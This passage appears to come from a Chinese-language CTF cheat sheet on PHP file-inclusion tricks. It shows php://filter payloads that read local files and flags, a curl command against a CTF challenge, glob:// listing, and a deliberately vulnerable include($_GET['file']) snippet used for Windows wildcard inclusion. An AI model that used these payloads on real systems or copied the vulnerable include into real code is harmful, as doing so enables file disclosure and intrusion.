 ```
?url=php://filter/convert.base64-encode/resource=test.txt

# http
?url=php://filter/convert.base64-encode/resource=http://127.0.0.1/test/test.txt

# resource 绕过
$ curl ctf.sharif.edu:31455/chal/technews/634770c075a17b83/images.php?id=php://filter/resource=files/images/robot.jpg/resource=files/flag/flag.txt
```

#### 向磁盘写文件

`php://filter/write`, 一个过滤器或多个过滤器以管道符 | 分隔

```
<?php
/* 这会通过 rot13 过滤器筛选出字符 "Hello World" 然后写入当前目录下的example.txt */
file_put_contents("php://filter/write=string.rot13/resource=example.txt","Hello World");
?>
```

* glob

> php>5.3.0

```
DirectoryIterator(“glob://ext/spl/examples/*.php”)
```

```
<?php
　　// 循环 ext/spl/examples/ 目录里所有 *.php 文件
　　// 并打印文件名和文件尺寸
　　$it = new DirectoryIterator("glob://E:\\wamp\\www\\test\\*.php");
　　foreach($it as $f)
　　{
　　　　printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);
　　}
?>
```

### php://fd

> php >= 5.3.6

## windows 特性

### 通配符 `<<`

存在文件包含时，php在windows下包含文件，能使用`<<`当通配符用, 使用`<<`符号相当于使用`*`号通配符。

* 样例

```
<?php
include($_GET['file']);
?>
```


[5]: http://php.net/manual/zh/features.file-upload.post-method.php